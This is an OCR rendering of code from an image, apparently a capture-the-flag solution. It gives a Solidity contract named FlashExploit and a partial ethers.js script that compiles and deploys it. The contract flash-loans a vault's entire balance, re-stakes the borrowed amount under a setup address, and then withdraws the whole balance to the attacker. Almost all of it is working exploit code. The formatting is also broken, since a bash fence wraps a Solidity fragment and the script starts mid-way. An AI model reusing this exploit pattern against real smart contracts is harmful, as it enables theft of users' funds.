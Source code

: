 ```bash
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.25;

  interface IBankVaults {
      function stake(address receiver) external payable returns (uint256);
      function flashLoan(uint256 amount, address receiver, uint256 timelock) external;
      function withdraw(uint256 assets, address receiver, address owner) external returns (uint256);
  }

  contract FlashExploit {
      IBankVaults public vault;
      address     public setup;
      address     public owner;

      constructor(address _vault, address _setup) payable {
          vault  = IBankVaults(_vault);
          setup  = _setup;
          owner  = msg.sender;
      }

      function start() external {
          // become a staker
          vault.stake{value: 1}(address(this));

          // how much to loan?
          uint bal = address(vault).balance;

          // flash-loan to us
          vault.flashLoan(bal, address(this), block.timestamp + 2 * 365 days);

          // now balances[setup] == bal, so drain:
          vault.withdraw(bal, owner, setup);
      }

      function executeFlashLoan(uint256 amount) external {
          // restake on behalf of setup
          vault.stake{value: amount}(setup);
      }

      receive() external payable {}
  }
  `;

  const input = {
    language: "Solidity",
    sources: { "FlashExploit.sol": { content: source } },
    settings: {
      outputSelection: { "*": { "*": ["abi", "evm.bytecode.object"] } }
    }
  };
  const output   = JSON.parse(solc.compile(JSON.stringify(input)));
  const artifact = output.contracts["FlashExploit.sol"]["FlashExploit"];
  const abi      = artifact.abi;
  const bytecode = artifact.evm.bytecode.object;

  // 3) deploy it (with 1 wei seed to flip isStaker)
  const factory = new ethers.ContractFactory(abi, bytecode, wallet);
  console.log("🛠 Deploying exploit contract...");
  const exploit = await factory.deploy(vaultAddr, SETUP_ADDR, { value: 1 });
  await exploit.deployed();
  console.log("Exploit", exploit.address);

```